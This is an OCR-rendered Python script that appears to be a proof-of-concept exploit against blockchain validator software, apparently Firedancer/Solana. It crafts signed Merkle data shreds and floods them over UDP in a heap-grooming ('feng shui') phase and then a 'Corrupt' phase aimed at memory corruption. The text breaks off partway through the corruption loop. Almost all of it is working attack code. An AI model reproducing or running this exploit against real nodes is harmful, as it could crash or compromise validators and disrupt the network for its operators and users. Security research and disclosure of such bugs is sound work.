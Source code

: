 ```
# craft shred
class FDShred:
    def __init__(self, idx, depth, payload):
        assert len(payload) == PAYLOAD_LEN
        self.signature = b'\xAA'*64
        self.slot = 0
        self.idx = idx
        self.fec_set_idx = 0
        self.variant = 0x90 | depth  # FD_SHRED_TYPE_MERKLE_DATA_CHAINED | depth
        self.data_flags = 0
        self.data_parent_off = 0
        self.data_size = 0x58
        self.version = 0
        self.payload = payload

    def pack(self):
        packed_data = self.signature
        packed_data += struct.pack("<B", self.variant)
        packed_data += struct.pack("<Q", self.slot)
        packed_data += struct.pack("<I", self.idx)
        packed_data += struct.pack("<H", self.version)
        packed_data += struct.pack("<I", self.fec_set_idx)
        
        packed_data += struct.pack("<H", self.data_parent_off)
        packed_data += struct.pack("<B", self.data_flags)
        packed_data += struct.pack("<H", self.data_size)

        assert len(packed_data) == 0x58
        return packed_data + self.payload
    
    def send(self):
        sock.sendto(self.pack(), (UDP_IP, UDP_PORT))

def hash_shred(buf):
    m = hashlib.sha256()
    m.update(b'\x00SOLANA_MERKLE_SHREDS_LEAF')
    m.update(buf[0x40:0x40+1139])
    hash = m.digest()
    assert len(hash) == 32
    return hash

sk = ed25519.SigningKey(b'\x00' * 32)
vk = sk.get_verifying_key()
print('[*] Pubkey:', vk.to_bytes().hex())

while 1:
    # Step 1. Groom things to be mostly zeroes.
    print('[+] Feng shui')
    for i in range(10000):
        payload = os.urandom(16) + (b'\x00'*(PAYLOAD_LEN-16))
        shred = FDShred(idx=0, depth=0, payload=payload)
        shred.signature = sk.sign(hash_shred(shred.pack()))
        shred.send()

        shred = FDShred(idx=i%68, depth=9, payload=b'\x00'*PAYLOAD_LEN)
        shred.send()


    # Step 2. Cause corruption.
    print('[+] Corrupt')
    for i in range(10000):
        payload = os.urandom(16) + (b'\x00'*(PAYLOAD_LEN-16))
        shred = FDShred(idx=0, depth=0, payload=payload)
```